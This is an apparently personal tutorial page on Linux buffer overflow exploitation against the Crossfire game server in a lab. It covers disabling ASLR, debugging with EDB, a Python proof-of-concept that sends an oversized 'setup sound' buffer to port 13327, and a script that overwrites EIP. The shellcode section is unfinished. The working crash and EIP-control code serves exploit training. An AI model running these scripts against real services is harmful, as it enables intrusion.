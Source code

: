 ```yaml
---
description: >-
  Buffer Overflow (Linux)
title: Buffer Overflow (Linux)              # Add title here
date: 2022-11-05 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Buffer Overflow (Linux)]                     # Change Templates to Writeup
tags: [exploitation, linux buffer overflow]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


First we need to disable ASLR on Kali for testing:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Setting up the EDB debugger
First thing, it runs with the following command:
```bash
root@debian:~# edb --run binary
```

> Remember to run EDB from the same folder of your binary
{: .prompt-tip }

The layout of EDB is similar to other popular debugging tools, as shown below:

![Description](/assets/img/Pasted-image-20230331095931.png)

To see available processes including the PID and owner, we will select _Attach_ from the _File_ menu. We can then use the filter option to search for a specific process, which in our case is _crossfire_, select it, and click _OK_ to attach to it:

![Description](/assets/img/Pasted-image-20230331095959.png)

When we initially attach to the process, it will be paused. To run it, we simply click the _Run_ button. Depending on how the application works within the debugger it might hit an additional breakpoint before letting the application run. In such cases we simply have to press the _Run_ button one more time.

![Description](/assets/img/Pasted-image-20230331100301.png)

### Calculate Buffer

Once we have attached the debugger to the application, we will use the following proof-of-concept code that we created based on information from the public exploit:

```python 
#!/usr/bin/python
import socket

host = "10.11.0.128"

crash = "\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Notice that our _buffer_ variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Our initial proof-of-concept builds a malicious buffer including the "setup sound" command, connects to the remote service on port 13327, and sends the buffer.

To crash Crossfire, we can run our first proof-of-concept using python:

```bash
kali@kali:~$ python poc_01.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

After running the script, the debugger displays the following error message, clearly indicating the presence of a memory corruption in the _setup sound_ command, likely a buffer overflow condition:

![Description](/assets/img/Pasted-image-20230331100340.png)

Clicking the _OK_ button, we find that the EIP register has been overwritten with our buffer.

### Find memory address of a function
If by any chance, you know that there is a function which helps you to execute your buffer by redirecting it to the EIP the following command can retrieve the memory address:

```bash
objdump -d execution-flow-linux | grep flag
0804862b <flag>:
 8048667:       75 1c                   jne    8048685 <flag+0x5a>
 8048683:       eb 37                   jmp    80486bc <flag+0x91>
```

### Control EIP

In order to create linux payloads it's better if we use python2 as such payloads can be encoded as bytes easily by using the following syntax:

```bash
#!/usr/bin/env python2
Initial ="A"*3892
payloadBytes = Initial + b"\x2b\x86\x04\x08"
#	Open in "wb" mode to write a new file, or "ab" mode to append
with open("exploit.txt", "wb") as binary_file:
# Write bytes to file 
	binary_file.write(payloadBytes)
```

As seen below, the EIP memory address is being converted as bytes with the b"" syntax.

### Locating Space for Our Shellcode

TODO

### Checking for Bad Characters

We sent the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory once they were processed by the application.